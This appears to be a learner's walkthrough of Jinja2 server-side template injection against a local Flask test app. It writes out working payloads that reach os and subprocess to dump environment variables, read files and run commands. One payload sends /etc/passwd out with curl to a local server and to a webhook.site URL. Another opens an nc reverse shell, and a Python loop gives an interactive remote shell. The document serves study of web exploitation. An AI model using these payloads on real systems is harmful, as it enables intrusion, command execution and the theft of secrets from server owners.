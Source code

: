 # return the index of urllib in `subclasses()`

`self.__class__.__base__.__subclasses__()` gives us a list of all the classes. There are many urllib classes, `<class 'urllib.request.Request'>` is probably the most important one, so I will be finding the index of that. I used bash to get the index.

![image](https://github.com/HACKER097/WebEx/assets/38581702/5a81b86e-06c7-49e9-9159-e9141bc82fa8)

Index sill be -1 of line number, so index of `<class 'urllib.request.Request'>` is 343

## Using payload directly

Since these are objects, to find index of an object I'll need to pass the object itself to search it. Which would defeat the purpose.

I tried converting it to a list of stings `{{[str(i) for i in self.__class__.__base__.__subclasses__()]}}` which does not work, I think jinja 2 for loops work differently

![image](https://github.com/HACKER097/WebEx/assets/38581702/268b773c-9233-4f5a-a854-6b0a6ed21a72)

# get name of current python flask script

`self.__class__.__init__.__globals__.__builtins__.__import__('__main__')` Gives us the required result. 

`self.__class__.__init__.__globals__` helps us access the global namespace. 

`__builtins__` lets us accesss the builtin objects.

`__import__('__main__')` gives us the current file name/object.

![image](https://github.com/HACKER097/WebEx/assets/38581702/2ad11b91-ec11-40ee-96f3-fc00f7f9bca3)

# get all the current envvars

`self.__class__.__init__.__globals__.__builtins__.__import__('os').environ` This is very similar to the previous payload, jus import os instead of __main__ and get the `environ` attribute.

![image](https://github.com/HACKER097/WebEx/assets/38581702/aea92422-b0e7-4e7b-9d4b-3a5fa9ccdae0)

# read a local file

I tried getting a shell using `self.__class__.__init__.__globals__.__builtins__.__import__('os').system('ls ~')` which works, but does not give us the output, so even though we can run commands, we dont be able to see the output.

So I used subprocess instead `self.__class__.__init__.__globals__.__builtins__.__import__('subprocess').getoutput('ls ~')` which works. Now I can read any file using `cat`.

![image](https://github.com/HACKER097/WebEx/assets/38581702/8f7663d6-c5f2-49e0-b0b3-b84e4c87e981)

## Reading file without a shell

subprocess might be blocked sometimes because its too lethal, lets try to do it without subprocess.

`{{ self.__class__.__init__.__globals__.__builtins__.open("test.py").read() }}`

Here I am using `open()` which can be found in `__builtins__` to read the file.

# run a command

Same as previous one. Just put the commands in `getoutput()`

# send the contents of etc pass to  awebhook

I am not doing that, because its probably not a good idea. Instead I started a pyhon server `python -m http.server 8000`

`http://127.0.0.1:5000/?c={{self.__class__.__init__.__globals__.__builtins__.__import__(%27subprocess%27).getoutput(%27curl%20http://0.0.0.0:8000/?c=$(cat%20/etc/passwd)%27)}}`

I once again used a shell to do this, because it the easier way. This is the command without formatting:

```bash
curl http://0.0.0.0:8000/?c=$(cat /etc/passwd)
```

Using actual webhook is very similar, just replace our url with the webhook url.

`http://127.0.0.1:5000/?c={{self.__class__.__init__.__globals__.__builtins__.__import__(%27subprocess%27).getoutput(%27curl%20https://webhook.site/0d2e1b38-aa09-459f-ac71-f1374ae848ac/?c=$(cat%20/etc/passwd)%27)}}`

![image](https://github.com/HACKER097/WebEx/assets/38581702/e5f49d8c-cbff-4557-ab08-0ab510be0345)

![image](https://github.com/HACKER097/WebEx/assets/38581702/6be0709d-60bd-4be2-952b-1d947e4308ec)


# Create reverse shell

I will be using a nc reverse shell, `nc 192.168.1.12 3333 -e sh`

![image](https://github.com/HACKER097/WebEx/assets/38581702/4702cbbe-912b-4b20-943d-279d6195b4ce)

![image](https://github.com/HACKER097/WebEx/assets/38581702/e8a247b4-a3b7-43fb-94bf-42df9b228918)

This is the final payload: `http://127.0.0.1:5000/?c={{self.__class__.__init__.__globals__.__builtins__.__import__('subprocess').getoutput('nc 192.168.1.12 3333 -e sh')}}`

I also created a this shell when I forgot what a reverse shell was. Thought it was worth mentioning:

```python
import requests

while True:
    command = input("$ ")
    url = "http://127.0.0.1:5000/?c={{self.__class__.__init__.__globals__.__builtins__.__import__(%27subprocess%27).getoutput('" + command + "')}}"
    resp = requests.get(url)
    print(resp.text)
```

# Doing all of this with a given blacklist

I could not figure this out. If the blacklist is implemented on client side, its a useless blacklist. But if its on server side, its feels impossible to get past it. Mainly because of `_`, `'`, and `"`

We need `'` to be able to import modules. Even if we get past it using `self.__class__.__base__.__subclasses__()[...]` to use the modules we need, its very likely that we will ned to use `'` to write filenames which we want to open or shell commands.

Even if we ignore `'` and `"`, blacklisting of `_` makes it impossible to get anywhere, because all python dunders have a `_` in them, and the entire payload relies on these dunderds. 
